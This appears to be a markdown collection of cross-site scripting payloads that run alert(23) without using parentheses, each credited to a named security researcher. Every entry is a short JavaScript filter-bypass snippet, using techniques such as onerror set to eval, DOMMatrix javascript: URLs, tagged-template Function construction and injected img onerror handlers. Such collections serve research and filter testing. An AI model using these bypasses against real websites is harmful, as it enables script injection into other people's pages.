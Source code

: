 
[aemkei](https://twitter.com/aemkei/status/1291104722875830274?s=20)

    onload=setTimeout
    Event.prototype.toString=
    _=>"alert\5023\51"
    
---

[aemkei](https://twitter.com/aemkei/status/1290768241225326595?s=20)

    throw/**/Uncaught=window.onerror=eval,&quot;;alert\5023\51&quot;
    
---

[Gareth Heyes](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

```
x=new DOMMatrix;
matrix=alert;
x.a=23;
location='javascript'+':'+x
```
    
--- 

[BitK](https://twitter.com/BitK_/status/1239581718635479041)

    Function`a${`alert${Function`a${`return fromCharCode`}{fromCharCode}``${String}``40`}23${Function`a${`return fromCharCode`}{fromCharCode}``${String}``41`}`}```
    
--- 

[BitK](https://twitter.com/BitK_/status/1298225144234729473)

    range = document.createRange``; 
    range.createContextualFragment`<img src=x onerror=alert\x2823\x29>'`;
    
--- 

[BitK](https://twitter.com/BitK_/status/1239620001776185344?)

    Function`a${`${Function`a${`return from`}{from}``${Array}``96${Function`a${`return fromCharCode`}{fromCharCode}``${String}`}`}${Function`a${`return fromCharCode`}{fromCharCode}``${String}``${96}${10}${97}${108}${101}${114}${116}${40}${50}${51}${41}`}`}```

    
--- 


[albinowax](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    window.name="alert(23)"
    location="xss.html"
    
xss.html

    eval.constructor`eval\x28name\x29```
    
--- 
